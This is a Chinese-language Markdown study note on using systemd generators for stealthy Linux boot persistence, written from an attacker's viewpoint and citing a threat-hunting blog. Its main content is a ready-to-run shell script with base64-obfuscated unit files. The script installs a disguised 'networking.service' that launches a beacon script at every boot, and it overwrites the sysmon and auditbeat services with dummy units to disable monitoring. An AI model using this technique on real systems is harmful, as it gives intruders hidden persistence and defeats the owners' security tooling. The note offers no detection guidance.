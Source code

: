 ```yaml
---
tags:
  - 操作系统
  - Linux
  - Systemd
参考: https://pberba.github.io/security/2022/02/07/linux-threat-hunting-for-persistence-systemd-generators/
---
```

Boot or Logon Initialization Scripts: systemd-generators  

它有什么优点呢？它在引导阶段运行地非常早——在所有服务执行之前运行，因此可以避免被通过查看日志揪出来，更进一步可以篡改相关服务  

所以通过它，我们可以达成两个目标：

- 创建恶意服务  
- 篡改监视服务  

## 1. 一个例子  

**前提**：在这个位置（也就是服务中ExecStart中具体指向的位置）有我们的恶意脚本`/opt/beacon.sh`  

**我们要做的：**创建`/lib/systemd/system-generators/systemd-network-generator`这个脚本，这样我们就可以达成以下目标：  

- 创建一个服务文件`/run/systemd/system/networking.service`  
- 创建符号链接`/run/systemd/system/multi-user.target.wants/networking.service` 以激活(enable)服务  
- 创建一个 `sysmon.service` 和 `auditbeat.service` 来覆盖原服务文件  

在控制台执行以下操作：  

```shell
cat > /usr/lib/systemd/system-generators/systemd-network-generator << EOF
#! /bin/bash

# Create networking.service and enabling it to run later in the boot process
echo 'W1VuaXRdCkRlc2NyaXB0aW9uPW5ldHdvcmtpbmcuc2VydmljZQoKW1NlcnZpY2VdCkV4ZWNTdGFydD0vb3B0L2JlYWNvbi5zaAoKW0luc3RhbGxdCldhbnRlZEJ5PW11bHRpLXVzZXIudGFyZ2V0' | base64 -d > /run/systemd/system/networking.service

mkdir -p /run/systemd/system/multi-user.target.wants/
ln -s /run/systemd/system/networking.service /run/systemd/system/multi-user.target.wants/networking.service


# Create adds dummy service unit files to overwrite sysmon.service and auditbeat.service
mkdir -p /run/systemd/generator.early
echo 'W1VuaXRdCkRlc2NyaXB0aW9uPSJTa2lwcGVkIgoKW1NlcnZpY2VdCkV4ZWNTdGFydD1lY2hvICJTa2lwcGVkIgoKW0luc3RhbGxdCldhbnRlZEJ5PW11bHRpLXVzZXIudGFyZ2V0' | base64 -d > /run/systemd/generator.early/sysmon.service
echo 'W1VuaXRdCkRlc2NyaXB0aW9uPSJTa2lwcGVkIgoKW1NlcnZpY2VdCkV4ZWNTdGFydD1lY2hvICJTa2lwcGVkIgoKW0luc3RhbGxdCldhbnRlZEJ5PW11bHRpLXVzZXIudGFyZ2V0' | base64 -d > /run/systemd/generator.early/auditbeat.service
EOF

chmod +x /lib/systemd/system-generators/systemd-network-generator
```



里面的base64码翻译过来就是实际上某个`.service`文件中的内容，比如：  

`W1VuaXRdCkRlc2NyaXB0aW9uPW5ldHdvcmtpbmcuc2VydmljZQoKW1NlcnZpY2VdCkV4ZWNTdGFydD0vb3B0L2JlYWNvbi5zaAoKW0luc3RhbGxdCldhbnRlZEJ5PW11bHRpLXVzZXIudGFyZ2V0`就是

```shell
[Unit]
Description=networking.service

[Service]
ExecStart=/opt/beacon.sh

[Install]
WantedBy=multi-user.target
```

下次重启后，就可以运行我们的恶意服务`networking.service`了  

- 可以通过`systemctl status networking`来查看状态
